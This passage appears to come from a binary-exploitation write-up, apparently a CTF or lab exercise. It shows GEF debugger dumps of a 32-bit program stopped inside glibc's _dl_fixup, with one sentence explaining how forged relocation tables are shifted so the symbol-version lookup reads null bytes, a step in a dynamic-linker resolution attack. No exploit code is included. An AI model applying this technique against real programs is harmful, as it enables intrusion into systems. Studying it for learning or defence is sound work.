 ```bash
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "binary1", stopped 0xf7f7bf26 in _dl_fixup (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7f7bf26 → _dl_fixup(l=0xf7fa2a40, reloc_arg=0x2f54)
[#1] 0xf7f7dff4 → _dl_runtime_resolve()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/10wx $ecx
0x80488f2:      0xe80775c0      0x000002ce      0x3be805eb      0x90000003
0x8048902:      0xc9fc5d8b      0xe58955c3      0xa4ec8153      0xe8000000
0x8048912:      0xfffffb3a      0x26eac381
```

Since we have control over the value that gets added to ecx we just need to shift out tables a bit so that it points to those null.

```bash
$eax   : 0x0804b2ac  →  0x00003050 ("P0"?)
$ebx   : 0x0
$ecx   : 0x080488f8  →   add BYTE PTR [eax], al
$edx   : 0x0804afc0  →   lock (bad)
$esp   : 0x0804b92c  →   add BYTE PTR [eax], al
$ebp   : 0xf7fdfa40  →  0x00000000
$esi   : 0x30e
$edi   : 0x0804b01c  →  0xf7ed0530  →  <__memset_sse2_rep+0> endbr32
$eip   : 0xf7fb8f26  →  <_dl_fixup+150> movzx edx, WORD PTR [ecx]
$eflags: [zero carry parity ADJUST sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0804b92c│+0x0000:  add BYTE PTR [eax], al      ← $esp
0x0804b930│+0x0004:  add BYTE PTR [eax], al
0x0804b934│+0x0008:  add BYTE PTR [eax], al
0x0804b938│+0x000c:  test BYTE PTR [edi], ch
0x0804b93c│+0x0010: 0xf7fdf000  →  0x00036f2c
0x0804b940│+0x0014: 0x0804826c  →   add BYTE PTR [ecx+ebp*2+0x62], ch
0x0804b944│+0x0018: 0x0804b01c  →  0xf7ed0530  →  <__memset_sse2_rep+0> endbr32
0x0804b948│+0x001c:  push cs
──────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7fb8f1c <_dl_fixup+140>  mov    esi, DWORD PTR [esp+0x1c]
   0xf7fb8f20 <_dl_fixup+144>  lea    ecx, [ebx+esi*2]
   0xf7fb8f23 <_dl_fixup+147>  add    ecx, DWORD PTR [edx+0x4]
 → 0xf7fb8f26 <_dl_fixup+150>  movzx  edx, WORD PTR [ecx]
   0xf7fb8f29 <_dl_fixup+153>  xor    ecx, ecx
   0xf7fb8f2b <_dl_fixup+155>  and    edx, 0x7fff
   0xf7fb8f31 <_dl_fixup+161>  shl    edx, 0x4
   0xf7fb8f34 <_dl_fixup+164>  add    edx, DWORD PTR [ebp+0x174]
   0xf7fb8f3a <_dl_fixup+170>  mov    ebx, DWORD PTR [edx+0x4]
─────────────────────────────────────────────────────────────── source:./elf/dl-runtime.c+75 ────
     70        const struct r_found_version *version = NULL;
     71        if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
     72          {
     73            const ElfW(Half) *vernum =
     74              (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
 →   75            ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
     76            version = &l->l_versions[ndx];
     77            if (version->hash == 0)
     78              version = NULL;
     79          }
     80        /* We need to keep the scope around so do some locking.  This is
──────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "binary1", stopped 0xf7fb8f26 in _dl_fixup (), reason: BREAKPOINT
```